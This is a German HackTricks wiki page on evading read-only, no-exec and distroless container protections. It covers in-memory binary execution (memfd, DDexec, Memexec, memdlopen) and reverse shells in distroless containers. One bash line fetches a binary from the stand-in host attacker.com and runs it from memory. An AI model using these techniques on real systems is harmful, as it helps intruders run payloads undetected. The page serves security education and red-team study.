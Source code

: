 # Bypass FS protections: read-only / no-exec / Distroless

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Wenn du an einer **Hacking-Karriere** interessiert bist und das Unhackbare hacken möchtest - **wir stellen ein!** (_fließend Polnisch in Wort und Schrift erforderlich_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videos

In den folgenden Videos findest du die auf dieser Seite erwähnten Techniken ausführlicher erklärt:

* [**DEF CON 31 - Exploring Linux Memory Manipulation for Stealth and Evasion**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Stealth intrusions with DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## read-only / no-exec Szenario

Es ist immer häufiger anzutreffen, dass Linux-Maschinen mit **schreibgeschütztem (ro) Dateisystemschutz** gemountet werden, insbesondere in Containern. Das liegt daran, dass es so einfach ist, einen Container mit ro Dateisystem zu starten, indem man **`readOnlyRootFilesystem: true`** im `securitycontext` festlegt:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Allerdings, selbst wenn das Dateisystem als ro gemountet ist, bleibt **`/dev/shm`** beschreibbar, sodass es falsch ist zu sagen, dass wir nichts auf die Festplatte schreiben können. Diese Ordner werden jedoch **mit no-exec-Schutz** gemountet, sodass du eine hier heruntergeladene Binärdatei **nicht ausführen kannst**.

{% hint style="warning" %}
Aus der Perspektive eines Red Teams macht dies das **Herunterladen und Ausführen** von Binärdateien, die sich nicht bereits im System befinden (wie Backdoors oder Aufzähler wie `kubectl`), **kompliziert**.
{% endhint %}

## Einfachster Bypass: Skripte

Beachte, dass ich von Binärdateien gesprochen habe, du kannst **jedes Skript ausführen**, solange der Interpreter auf der Maschine vorhanden ist, wie ein **Shell-Skript**, wenn `sh` vorhanden ist, oder ein **Python**-**Skript**, wenn `Python` installiert ist.

Allerdings reicht das nicht aus, um deine Binär-Backdoor oder andere Binärwerkzeuge auszuführen, die du möglicherweise benötigst.

## Speicher-Bypasses

Wenn du eine Binärdatei ausführen möchtest, aber das Dateisystem dies nicht zulässt, ist der beste Weg, dies zu tun, indem du sie **aus dem Speicher ausführst**, da die **Schutzmaßnahmen dort nicht gelten**.

### FD + exec syscall Bypass

Wenn du einige leistungsstarke Skript-Engines auf der Maschine hast, wie **Python**, **Perl** oder **Ruby**, könntest du die Binärdatei herunterladen, um sie aus dem Speicher auszuführen, sie in einem Speicher-Dateideskriptor (`create_memfd` syscall) speichern, der nicht durch diese Schutzmaßnahmen geschützt ist, und dann einen **`exec` syscall** aufrufen, der den **fd als die auszuführende Datei angibt**.

Dafür kannst du leicht das Projekt [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) verwenden. Du kannst ihm eine Binärdatei übergeben, und es wird ein Skript in der angegebenen Sprache generiert, das die **Binärdatei komprimiert und b64 kodiert** mit den Anweisungen, um sie in einem **fd** zu **dekodieren und zu dekomprimieren**, das durch den Aufruf des `create_memfd` syscalls erstellt wird, und einen Aufruf des **exec** syscalls, um sie auszuführen.

{% hint style="warning" %}
Dies funktioniert nicht in anderen Skriptsprache wie PHP oder Node, da sie keine **Standardmethode haben, um rohe Syscalls** aus einem Skript aufzurufen, sodass es nicht möglich ist, `create_memfd` aufzurufen, um den **Speicher fd** zu erstellen, um die Binärdatei zu speichern.

Darüber hinaus wird das Erstellen eines **regulären fd** mit einer Datei in `/dev/shm` nicht funktionieren, da du sie nicht ausführen darfst, weil der **no-exec-Schutz** gilt.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) ist eine Technik, die es dir ermöglicht, den **Speicher deines eigenen Prozesses** zu **modifizieren**, indem du dessen **`/proc/self/mem`** überschreibst.

Daher kannst du, indem du **den Assembly-Code kontrollierst**, der vom Prozess ausgeführt wird, einen **Shellcode** schreiben und den Prozess "mutieren", um **beliebigen Code auszuführen**.

{% hint style="success" %}
**DDexec / EverythingExec** ermöglicht es dir, deinen eigenen **Shellcode** oder **jede Binärdatei** aus dem **Speicher** zu laden und **auszuführen**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Für weitere Informationen zu dieser Technik, siehe das Github oder:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) ist der natürliche nächste Schritt von DDexec. Es ist ein **DDexec Shellcode, der demonisiert wurde**, sodass Sie jedes Mal, wenn Sie **eine andere Binärdatei ausführen** möchten, DDexec nicht neu starten müssen. Sie können einfach den Memexec-Shellcode über die DDexec-Technik ausführen und dann **mit diesem Daemon kommunizieren, um neue Binärdateien zu laden und auszuführen**.

Ein Beispiel, wie man **memexec verwendet, um Binärdateien von einer PHP-Reverse-Shell auszuführen**, finden Sie unter [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Mit einem ähnlichen Zweck wie DDexec ermöglicht die Technik [**memdlopen**](https://github.com/arget13/memdlopen) eine **einfachere Möglichkeit, Binärdateien** im Speicher zu laden, um sie später auszuführen. Es könnte sogar ermöglichen, Binärdateien mit Abhängigkeiten zu laden.

## Distroless Bypass

### Was ist distroless

Distroless-Container enthalten nur die **minimalen Komponenten, die notwendig sind, um eine bestimmte Anwendung oder einen Dienst auszuführen**, wie Bibliotheken und Laufzeitabhängigkeiten, schließen jedoch größere Komponenten wie einen Paketmanager, eine Shell oder Systemdienstprogramme aus.

Das Ziel von Distroless-Containern ist es, die **Angriffsfläche von Containern zu reduzieren, indem unnötige Komponenten eliminiert** und die Anzahl der ausnutzbaren Schwachstellen minimiert wird.

### Reverse Shell

In einem Distroless-Container finden Sie möglicherweise **nicht einmal `sh` oder `bash`**, um eine reguläre Shell zu erhalten. Sie werden auch keine Binärdateien wie `ls`, `whoami`, `id`... finden, alles, was Sie normalerweise in einem System ausführen.

{% hint style="warning" %}
Daher werden Sie **nicht** in der Lage sein, eine **Reverse Shell** zu erhalten oder das System wie gewohnt zu **enumerieren**.
{% endhint %}

Wenn der kompromittierte Container jedoch beispielsweise eine Flask-Webanwendung ausführt, ist Python installiert, und daher können Sie eine **Python-Reverse-Shell** erhalten. Wenn es Node ausführt, können Sie eine Node-Reverse-Shell erhalten, und dasselbe gilt für die meisten **Skriptsprache**.

{% hint style="success" %}
Mit der Skriptsprache könnten Sie das **System enumerieren**, indem Sie die Sprachfähigkeiten nutzen.
{% endhint %}

Wenn es **keine `read-only/no-exec`**-Schutzmaßnahmen gibt, könnten Sie Ihre Reverse Shell missbrauchen, um **Ihre Binärdateien im Dateisystem zu schreiben** und sie **auszuführen**.

{% hint style="success" %}
In dieser Art von Containern werden diese Schutzmaßnahmen jedoch normalerweise vorhanden sein, aber Sie könnten die **vorherigen Techniken zur Ausführung im Speicher verwenden, um sie zu umgehen**.
{% endhint %}

Sie finden **Beispiele**, wie man **einige RCE-Schwachstellen ausnutzt**, um Skriptsprache **Reverse Shells** zu erhalten und Binärdateien aus dem Speicher auszuführen, unter [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Wenn Sie an einer **Hacking-Karriere** interessiert sind und das Unhackbare hacken möchten - **wir stellen ein!** (_fließend Polnisch in Wort und Schrift erforderlich_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
